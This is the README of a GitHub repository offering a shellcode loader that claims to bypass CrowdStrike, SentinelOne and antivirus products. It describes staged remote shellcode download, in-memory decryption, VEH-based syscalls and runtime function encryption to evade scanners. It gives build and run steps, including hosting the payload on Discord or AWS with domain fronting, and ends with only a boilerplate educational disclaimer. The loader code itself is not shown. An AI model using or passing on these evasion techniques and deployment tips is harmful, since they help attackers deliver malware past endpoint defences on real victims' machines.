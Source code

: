# EDR-XDR-AV-Bypass-Shellcode-Loader
- CURRENTLY BYPASSES CROWDSTRIKE & SENTINEL ONE RUNTIME.
- SCROLL DOWN TO FIND DETECTIONS (RUNTIME & STATIC TIME ANALYSIS)
---
![image](https://github.com/user-attachments/assets/c9945d69-547c-4c21-923a-20325c886844)

## Overview
This project provides an advanced shellcode loader capable of bypassing major EDRs (Endpoint Detection and Response), XDRs, and AV (Antivirus) systems. The shellcode is executed in a staged manner with techniques such as memory protection manipulation, VEH (Vectored Exception Handling), and system calls to evade detection.

## Features
- **Staged Shellcode Execution**: Downloads and executes shellcode in multiple steps to minimize detection.
- **Custom Memory Protection**: Evading modern AntiVirus memory scanners by encrypting a function during runtime, then decrypting it when the function needs to be executed, then re-encrypting the function once the function has finished executing
- **Vectored Exception Handling (VEH)**: Handles memory access violations and redirects execution flow.
- **Encrypted Shellcode**: Shellcode is encrypted during download and decrypted in-memory before execution.
- Custom ```GetProcessAddress``` & ```GetModuleHandleW```
## Prerequisites
- Windows Operating System (x64)
- Visual Studio or compatible C++ compiler
- Internet connection (for staged shellcode download)

## Usage

### Build
1. Clone the repository:
2. Open the project in Visual Studio or your preferred C++ environment (i use vsc).
3. Compile the project in Release mode for a production-ready executable.

### Execution
1. Host the shellcode binary on a remote server (e.g., Discord, AWS, or any public URL, works best with domain fronting).
2. Update the shellcode URL in the `main` function:
   ```cpp
   std::wstring url = L"https://your-hosted-url/shellcode.bin";
   ```
3. Run the executable:
   ```bash
   hack.exe
   ```

## DETECTIONS (scanner.to / kleenscan)
![image](https://github.com/user-attachments/assets/0afe46a9-9aa7-450c-9ec1-85e898ae4487)
![image](https://github.com/user-attachments/assets/b8d4a182-e35e-46f0-a052-04e488674069)
![image](https://github.com/user-attachments/assets/0a3b4308-014e-4dc3-ae99-6faf52b77fc6)

## Disclaimer
This tool is intended for educational and research purposes only. Misuse of this tool for malicious purposes is strictly prohibited and against the law. The author does not condone or support any illegal activity.


# Refernces that might help you: 
- https://redops.at/en/blog/syscalls-via-vectored-exception-handling#:~:text=What%20is%20meant%20by%20syscalls%20via%20vectored%20exception,a%20VEH%20function%20and%20deliberately%20throwing%20an%20exception.
- https://whiteknightlabs.com/2024/07/31/layeredsyscall-abusing-veh-to-bypass-edrs/
- https://github.com/C5Hackr/Segment-Encryption
- https://revers.engineering/custom-getprocaddress-and-getmodulehandle-implementation-x64/
